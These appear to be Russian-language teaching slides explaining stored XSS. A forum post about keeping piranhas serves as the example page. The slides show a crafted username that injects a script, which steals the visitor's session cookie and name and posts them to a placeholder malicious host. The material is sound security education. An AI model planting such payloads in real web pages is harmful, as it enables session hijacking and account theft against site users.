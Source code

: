 ## Хранимый XSS - пример

Разметка страницы:

```html
<h1>Здравствуйте, <span class="username">Обычный Пользователь</span>!</h1>
<article class="topic">
	<header class="topic-header">
		<h2>Разведение пираний в домашних условиях</h2>
	</header>
	<p class="topic-body">
		Всем привет. Я решил завести себе пираний.
Расскажите, какие плюсы, минусы, подводные камни.</p>
    <footer class="posted-by">
        От <span class="poster-name">Другой Пользователь</span>
    </footer>
</article>
```

## Хранимый XSS - пример

Странный ввод пользователя:

```
Другой пользователь</span><script>const username=document.querySelector('.username').textContent;const sessionCookie=document.cookie.match(/session-token=([^;$]+)/)[1];fetch('http:/www.malicious-site.com',{method: 'post',body:JSON.stringify({username,sessionCookie})});</script>
```

## Хранимый XSS - пример

Разметка со странным вводом пользователя:

```html
<h1>Здравствуйте, <span class="username">Обычный Пользователь</span>!</h1>
<article class="topic">
	<header class="topic-header">
		<h2>Разведение пираний в домашних условиях</h2>
	</header>
	<p class="topic-body">
		Всем привет. Я решил завести себе пираний.
Расскажите, какие плюсы, минусы, подводные камни.</p>
    <footer class="posted-by">
        От <span class="poster-name">Другой Пользователь</span>
        <script>
            const username = document.querySelector(`.username`).textContent;
            const sessionCookie = document.cookie.match(/session-token=([^;$]+)/)[1];
            fetch(`http:/www.malicious-site.com`, {
                method: `post`,
                body: JSON.stringify({username, sessionCookie})
            });
        </script>
    </footer>
</article>
```
